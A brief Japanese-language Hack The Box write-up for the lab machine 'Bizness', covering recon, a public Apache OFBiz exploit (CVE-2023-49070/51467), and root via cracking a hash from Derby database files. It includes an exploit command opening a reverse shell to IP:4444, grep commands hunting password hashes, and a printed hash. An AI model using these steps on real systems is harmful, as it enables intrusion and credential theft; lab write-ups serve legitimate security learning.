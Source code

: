 ```yaml
---
title: "HTB: Bizness"
date: 2024-06-05T04:49:04+09:00
draft: false
---
```


## user

- nmap
  - ssh, http, ssl/http あたり
  - http アクセスでサイトが立ち上がる
- ffuf
  - /control
  - OFBiz らしい
  - こういうのはまず公式サイトから構成を簡単にさらう
- OFBiz
  - Registered User が見つかる
  - 下にバージョンが書いてある
  - HTB の方でもバージョンを探せ，とあるのでおそらく CVE がある
  - [https://github.com/UserConnecting/Exploit-CVE-2023-49070-and-CVE-2023-51467-Apache-OFBiz]()
- CVE
  - CVE が刺さる
  - ```python3 ofbiz_exploit.py https://bizness.htb shell IP:4444```
- shell
  - shell に入れた
  - /home/ofbiz/user.txt

## root

- ```sudo -l```
  - 無理でした
- Derby
  - /opt/ofbiz に色々インストールされてる
  - config を見ると SHA が ~ とかいろいろ書かれている
    - ```ofbiz@bizness:/opt/ofbiz/framework/security/config$ cat security.properties```
  - derby に関するファイルを探す
    - ```/opt/ofbiz/runtime/data/derby```
  - 列挙すると seg0 に .dat がたくさん入ってる
  - ```find . -type f -name “*.dat” -exec grep “SHA” {} \;```
  - ```c5490.dat``` がそれっぽいので見る
    - ```currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I```
  - これをクラックすればいいんだが全然できない
- ハッシュクラック
  - writeup を見るとどうやら base64 でエンコードされているらしい
  - base64 -> hashcat で解読する
  - root パスワードで su root
  - root.txt

base64 エンコードが全然できなかった．．．
公式ドキュメントを見るとそれっぽいことが書いてあったからこれは調査不足だ．．．
